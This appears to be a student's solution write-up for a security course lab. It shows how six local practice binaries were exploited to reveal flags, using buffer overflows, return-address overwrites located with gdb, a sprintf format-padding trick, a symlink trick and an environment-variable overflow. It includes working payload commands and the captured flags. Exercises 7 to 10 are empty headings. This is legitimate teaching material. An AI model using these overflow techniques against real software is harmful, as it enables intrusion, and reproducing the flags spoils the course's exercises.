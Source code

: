 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1028 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.
> 
> ```
> "%01024d"
>```
>
>Then we just need to find the address of the `secret` through GDB.
>```
>(gdb) print secret
$1 = {void ()} 0x565561fd \<secret>
>```
>Converting the address to little endian in hexadecimal and combining it all together, we get:
>
>```
>student@hacklabvm:/home/q4$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"%01024d" + b"\xfd\x61\x55\x56")')
>Jumping to function at 0x565561fd!!
> _________________________________________
>/ csf2024s1_{similarities-waftage-pockhou \
>\ se}                                     /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>
###### Exercise 5

> [!exercise]+ Exercise 5
> Go to /home/q5/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is straightforward - since we don't have permissions to create a file inside `/q5`, we can create a `symlink` to the `secret` file from `secet` contained in `~` and run the script inside `~`.
> 
> ```
> student@hacklabvm:~$ ln -s /home/q5/secret ./secet
student@hacklabvm:~$ ls -l
lrwxrwxrwx  1 student student   15 Mar 28 03:58 secet -> /home/q5/secret
> ...
>```
>
>```
>student@hacklabvm:~$ ../q5/run_me
> _________________________________________
>/ csf2024s1_{phalangitic-utfangethef-cano \
>\ nicate}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 6


> [!exercise]+ Exercise 6
> Another straightforward one. We need to once again cause a buffer overflow and overwrite the `flag` variable. To do this, add the hex code as an environment variable to `Q6_SECRET_CODE` padded with junk data. We can use `export` for this. 
> 
> ```
> export Q6_SECRET_CODE=$(python -c 'print("A"*1024 + "\xef\xbe\xad\xde")')

>```


<div style="page-break-after: always;"></div>

###### Exercise 7

<div style="page-break-after: always;"></div>

###### Exercise 8

<div style="page-break-after: always;"></div>

###### Exercise 9

<div style="page-break-after: always;"></div>

###### Exercise 10







